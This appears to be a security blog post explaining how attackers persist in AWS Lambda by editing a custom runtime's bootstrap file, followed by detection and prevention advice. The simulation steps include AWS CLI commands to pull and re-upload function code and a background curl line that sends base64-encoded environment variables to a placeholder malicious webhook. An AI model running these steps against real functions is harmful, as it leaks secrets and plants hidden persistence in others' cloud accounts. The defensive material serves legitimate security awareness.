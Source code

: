 ```yaml
---
title: Unmasking Lambda's Hidden Threat - When Your Bootstrap Becomes a Backdoor
date: 2025-07-11
authors:
  - guillermogonzalez
  - sergiojimenez
categories:
  - AWS Security
  - Serverless
    - Cloud Hacking
  - Persistence
  - Lambda
---
```


-----
## Unmasking Lambda's Hidden Threat: When Your Bootstrap Becomes a Backdoor

So, you've jumped on the serverless bandwagon, huh? All that auto-scaling, no servers to patch, just pure code magic. It feels invincible, right? Well, sorry to burst your bubble, but even in the land of ephemeral functions, bad actors are finding ways to stick around longer than an awkward family dinner. Today, we're pulling back the curtain on one of those particularly sneaky tricks: achieving persistence in AWS Lambda by messing with its very heart – the custom runtime `bootstrap` file.

### Why the Bootstrap? Understanding the Context

AWS Lambda allows developers to use custom runtimes. This is made possible by the **Lambda Runtime API** and a key executable: the `bootstrap` file. When a Lambda function with a custom runtime is invoked, AWS calls this `bootstrap` file. Its purpose is to initialize the runtime environment, load the function's code and manage the lifecycle of invocations, directly interacting with the Runtime API to send and receive events.

Herein lies the opportunity for an attacker: if a function with a custom runtime is compromised and sufficient permissions are obtained, modifying this `bootstrap` allows malicious code to be injected. This code will execute *before* the legitimate function code on every invocation, ensuring stealthy persistence, even if the main function's code is subsequently updated.

### The Attack in Detail: Simulating Persistence

Simulating this attack requires initial access to the compromised Lambda function and permissions to modify its code.

**Prerequisites:**

* An existing Lambda function with a **custom runtime**.
* IAM permissions for `lambda:UpdateFunctionCode`.
* Ability to write to `/tmp` or `/var/task` (though direct `bootstrap` modification is more direct).
* A webhook for exfiltration (e.g., `webhook.site`).

**Simulation Steps:**

1.  **Download the current function:**
    The first step is to get the function's code. This can be done using `aws lambda get-function --function-name your-function-name --query 'Code.Location'` to get the ZIP package URL, then downloading it.

    ```bash
    aws lambda get-function --function-name my-affected-function --query 'Code.Location' --output text > code_location.txt
    wget -O function.zip $(cat code_location.txt)
    unzip function.zip -d extracted_function
    ```

2.  **Edit the `bootstrap`:**
    Inside the `extracted_function` directory, locate the `bootstrap` file. Add a malicious line to the beginning of this file. For example, to exfiltrate environment variables to your webhook:

    ```bash
    # Add this line to the beginning of the 'extracted_function/bootstrap' file
    curl -X POST -H "Content-Type: application/json" -d "$(env | base64)" [https://your-malicious-webhook.site/path](https://your-malicious-webhook.site/path) &
    ```
    The `&` at the end is crucial for the command to execute in the background and not block the runtime's startup, allowing the legitimate function to run without obvious interruptions for the user or application.

3.  **Upload the changes:**
    Repackage the function and upload it to AWS.

    ```bash
    zip -r new_function.zip extracted_function/
    aws lambda update-function-code --function-name my-affected-function --zip-file fileb://new_function.zip
    ```

Once the function is invoked, the malicious `bootstrap` will execute, sending the desired information to your webhook, all while the original function proceeds normally.

### Implications and Comparison with Other Techniques

This technique is particularly stealthy because the `bootstrap` is a fundamental file for the runtime, and its modification can go unnoticed if not explicitly audited. Unlike simply modifying the function code (which could be overwritten by a legitimate deployment), the `bootstrap` change persists through updates to the main function's code, as the `bootstrap` is part of the runtime environment, not the application code.

Other Lambda persistence techniques include:
* **Backdooring existing runtimes (e.g., Python/Node.js):** Modifying standard libraries or modules so that malicious code executes when the function imports them.
* **"Runtime Swapping":** Changing an existing function's runtime to a custom one controlled by the attacker.
* **Malicious Layers:** If an attacker can create or modify a Lambda Layer used by a target function, they can inject compromised code or dependencies.

The `bootstrap` attack stands out for its subtlety and ability to survive legitimate code deployments, making it an advanced and dangerous technique.

### Fortifying Your Defenses: Prevention and Detection

Detecting and preventing these types of attacks requires a multifaceted and proactive approach to serverless security.

1.  **Continuous Detection and Monitoring (Runtime and Behavior):**
    * **Amazon CloudTrail:** Monitor and alert on critical events such as `UpdateFunctionCode`, `CreateFunction`, `CreateFunctionUrlConfig`, and `UpdateFunctionConfiguration`. Set up Amazon EventBridge alarms for immediate notifications of any unexpected function modifications.
    * **Amazon GuardDuty & AWS Security Hub:** Enable these services. GuardDuty can detect anomalous behavior, such as unusual outbound connections to suspicious domains from a Lambda function that normally shouldn't communicate externally. Security Hub consolidates findings and offers centralized visibility.
    * **Runtime Security:** Implement third-party solutions like Sysdig, Upwind, Palo Alto Networks Prisma Cloud, Aqua Security, or Lacework. These tools can detect command injections, runtime file modifications (`bootstrap`), or anomalous processes within the Lambda environment.

2.  **`bootstrap` Content Review:**
    * **Manual and Automated Auditing:** For functions with custom runtimes, the `bootstrap` file must be rigorously audited. Integrate validations in your CI/CD pipelines that block deployments with suspicious commands (e.g., `curl`, `nc`, `wget`) or unauthorized changes in the `bootstrap`.
    * **Hash Monitoring:** Use `aws lambda get-function --query 'Configuration.CodeSha256'` to get the ZIP code hash. Store and monitor these hashes to detect any unexpected changes in the function's deployment package.

3.  **Supply Chain Security:**
    * **Code Signing:** AWS Lambda supports code signing. Enable this feature to ensure that only code packages signed by trusted entities can be deployed to your functions. This would thwart any attempt to deploy a modified `bootstrap` without the proper signature.
    * **Container Image Scanning:** If you use container images as a runtime for Lambda, integrate Amazon Inspector or third-party tools into your pipeline to continuously scan images for vulnerabilities and malicious content, including `bootstrap` modifications.

4.  **Least Privilege and Isolation Principles:**
    * **IAM Least Privilege:** Ensure that Lambda deployment IAM roles (`lambda:UpdateFunctionCode`) and execution roles (`lambda:InvokeFunction`) have only the strictly necessary permissions. Avoid granting excessive permissions that could be exploited.
    * **Network Restrictions (VPC):** Place critical Lambda functions within an Amazon VPC. If a function does not require internet access, avoid configuring a NAT Gateway. This drastically restricts an attacker's ability to exfiltrate data to external webhooks.

---

The world of serverless security is always evolving, and as defenders, so must we. Understanding how seemingly benign components like the `bootstrap` can be weaponized is key to staying ahead. Keep your eyes peeled, your CloudTrails flowing, and your security tools sharp. The cloud might feel like magic, but even magic has its dark corners – it's up to us to shine a light on them.
